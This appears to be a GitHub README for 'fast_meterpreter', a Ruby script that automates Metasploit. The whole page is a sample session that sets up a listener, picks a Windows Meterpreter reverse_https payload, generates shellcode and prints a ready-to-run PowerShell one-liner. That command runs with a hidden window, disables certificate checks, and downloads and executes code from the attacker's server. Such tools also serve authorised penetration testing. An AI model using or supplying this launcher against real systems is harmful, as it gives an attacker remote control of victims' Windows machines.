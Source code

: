 fast_meterpreter
================


ruby fast_meterpreter.rb
******************************
Setting up the MSF server
******************************

[!] Enter the host ip to listen on: 192.168.1.202

[+] Using 192.168.1.202 as server

[!] Enter the port you would like to use or leave blank for [443]: 443

[+] Using 443

Please pick the payload you would like to use

    
1) windows/meterpreter/reverse_https     
2) windows/meterpreter/reverse_tcp     
99) Exit

\> 1

[!] Would you like to host the powershell script?[yes/no] yes

**************************************************
Setting up webserver to host the powershell script
**************************************************

[!] Enter the host ip to listen on: 192.168.1.202

[+] Using 192.168.1.202 as server

[!] Enter the port you would like to use or leave blank for [443]: 8080

[+] Using 8080

[*] Generating shellcode

[+] Shellcode Generated

[!] Would you like to use ssl?[yes/no] yes

powershell -windowstyle hidden "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = { $true };IEX (New-Object Net.WebClient).DownloadString('https://192.168.1.202:8080')"

[*] Setting up Metasploit this may take a moment

[*] Starting SSL Server!
